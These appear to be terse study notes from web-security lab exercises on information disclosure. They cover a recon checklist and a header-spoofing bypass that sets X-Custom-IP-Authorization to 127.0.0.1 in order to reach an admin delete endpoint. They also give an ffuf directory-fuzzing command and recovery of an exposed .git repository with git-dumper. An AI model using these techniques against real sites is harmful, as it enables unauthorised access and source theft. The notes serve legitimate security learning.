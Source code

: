 ```
phpinfo
robots
error traces
backup files exposed
TRACE /admin information disclosure
```
##### Custom HTTP headers?
use OPTIONS for protocols
use TRACE for headers
Notice X-Custom-IP-Authorization: 81.33.215.45 is being reflected
add X-Custom-IP-Authorization: with 127.0.0.1
GET /admin/delete?username=carlos

##### git exposed
/ffuf -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -u https://0af200f8048145328134cb5100bb00a3.web-security-academy.net/FUZZ -fc 404
.git found
https://github.com/arthaud/git-dumper
git status
git reset --hard
git show ..
